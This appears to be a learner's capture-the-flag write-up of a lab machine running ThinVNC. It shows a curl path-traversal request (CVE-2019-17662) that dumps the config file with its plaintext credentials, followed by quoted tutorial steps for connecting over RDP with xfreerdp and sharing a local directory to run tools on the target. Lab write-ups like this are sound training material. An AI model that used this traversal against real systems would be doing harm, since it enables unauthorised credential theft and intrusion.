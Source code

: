 ```
┌──(kali㉿kali)-[~/CVE-2019-17662]
└─$ curl -XGET "http://10.10.196.63:8080/witty/\../\../ThinVnc.ini" 

[Authentication]
Unicode=0
User=Atlas
Password=H0ldUpTheHe@vens
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1

yep I did it, using burpsuite and curl :)
```

![[Pasted image 20230101223920.png]]
![[Pasted image 20230101223935.png]]

![[Pasted image 20230101224137.png]]

### Access VNC 🠖 RDP

If you've reached this task then you should have user access to the machine -- congratulations!

The access that we have just now is mildly revolting though. ThinVNC does not provide the nicest interface to use, and we struggle to use a lot of the functionality of the machine through it.

Cast your mind back to our initial enumeration. Remember we found that Microsoft Remote Desktop Services were running on port 3389? Assuming we have the proper credentials, we can connect to this from Linux using a tool called `xfreerdp`.

The syntax for using `xfreerdp` looks like this:  
`xfreerdp /v:10.10.196.63 /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp`  

There's a bunch of stuff going on here, so let's break each switch down:

-   `/v:10.10.196.63` -- this is where we specify what we want to connect to.
-   `/u:USERNAME /p:PASSWORD` -- here we would substitute in a valid username/password combination.
-   `/cert:ignore` -- RDP connections are encrypted. If our attacking machine doesn't recognise the certificate presented by the machine we are connecting to it will warn us and ask if we wish to proceed; this switch simply ignores that warning automatically.
-   `+clipboard` -- this shares our clipboard with the target, allowing us to copy and paste between our attacking machine and the target machine.
-   `/dynamic-resolution` lets us resize the GUI window, adjusting the resolution of our remote session automatically.
-   `/drive:share,/tmp` -- our final switch, this shares our own `/tmp` directory with the target. This is an _extremely_ useful trick as it allows us to execute scripts and programs from our own machine without actually transferring them to the target (we will see this in action later!)
